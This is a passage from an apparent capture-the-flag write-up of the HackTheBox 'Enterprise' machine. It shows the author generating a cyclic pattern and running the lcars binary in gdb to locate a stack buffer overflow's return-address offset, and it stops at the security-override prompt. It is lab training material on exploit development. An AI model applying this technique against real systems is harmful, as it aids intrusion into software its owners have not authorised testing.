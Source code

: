 I need to know the exact point in my input that ends up overwriting the return
address. To do that, I’ll generate a pattern of characters to pass in as
input. This is commonly done with `msf-pattern_create`, but I was playing with
[this Python implementation](https://github.com/ickerwx/pattern) for
Enterprise:

    
    
    oxdf@parrot$ pattern 
    Usage: /usr/local/bin/pattern (create | offset) <value> <buflen>
    oxdf@parrot$ pattern create 250
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
    

Now I’ll run `lcars` in `gdb` (`-q` to skip all the intro printing, and I’ve
got [Peda](https://github.com/longld/peda) installed as well):

    
    
    oxdf@parrot$ gdb -q lcars
    Reading symbols from lcars...
    (No debugging symbols found in lcars)
    gdb-peda$
    

I’ll enter `r` to run, and give it the access code and select 4:

    
    
    gdb-peda$ r
    Starting program: /media/sf_CTFs/hackthebox/enterprise-10.10.10.61/lcars 
    
                     _______ _______  ______ _______
              |      |       |_____| |_____/ |______
              |_____ |_____  |     | |    \_ ______|
                                                                        
    Welcome to the Library Computer Access and Retrieval System
    
    Enter Bridge Access Code: 
    picarda1
                                                                        
                     _______ _______  ______ _______
              |      |       |_____| |_____/ |______
              |_____ |_____  |     | |    \_ ______|
                                                                        
    Welcome to the Library Computer Access and Retrieval System
    
    
    
    LCARS Bridge Secondary Controls -- Main Menu:
                                                                        
    1. Navigation
    2. Ships Log
    3. Science
    4. Security                            
    5. StellaCartography               
    6. Engineering                 
    7. Exit                    
    Waiting for input:
    4
    Disable Security Force Fields
    Enter Security Override:
    